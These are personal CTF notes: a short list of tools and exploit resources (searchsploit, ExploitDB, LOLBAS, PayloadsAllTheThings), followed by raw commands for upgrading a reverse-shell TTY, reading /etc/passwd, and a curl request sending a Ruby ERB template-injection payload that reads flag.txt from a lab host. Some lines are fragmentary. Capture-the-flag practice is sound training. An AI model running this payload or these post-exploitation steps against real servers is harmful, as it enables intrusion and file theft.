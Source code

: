 # CTFs

## Tools

* **Openvpn:** Tool for getting acces to a VPN

```bash=
openvpn $ovpnfile
```



* **Seacrhsploit**: Kali package for acceding to exploitDB

```bash=
searchsploit $Keywords
```

## Information Sources

* **ExploitDB:** Contains exploits that can be downloaded and used. Kali Linux comes with a preinstalled version called _Searchsploit._ [https://www.exploit-db.com/](https://www.exploit-db.com/)
* **LOLBAS:** Contain scripts, binaries and libraries for developing a Living off the Land attack. [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
* **OWASP Favicon:** Database to identify typical frameworks icons [https://wiki.owasp.org/index.php/OWASP\_favicon\_database](https://wiki.owasp.org/index.php/OWASP\_favicon\_database)
* **Hacksplaining:** [https://www.hacksplaining.com/lessons](https://www.hacksplaining.com/lessons)
* MITRE:&#x20;

script /dev/null -c bash

ctrl +z

stty raw -echo;fg

reset

export TERM=xterm

export SHELL=bash

stty rows 24 columns 126



cat /etc/passwd

cd /var/www9

sqlite3 con archivo database "file.db9'"





curl 159.65.24.125:31840 -s -X POST -d 'neon=holamundo %3C%25%3D%20File.open%28%27.%2Fflag.txt%27%29.read%20%25%3E'

Payload Ruby [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby)
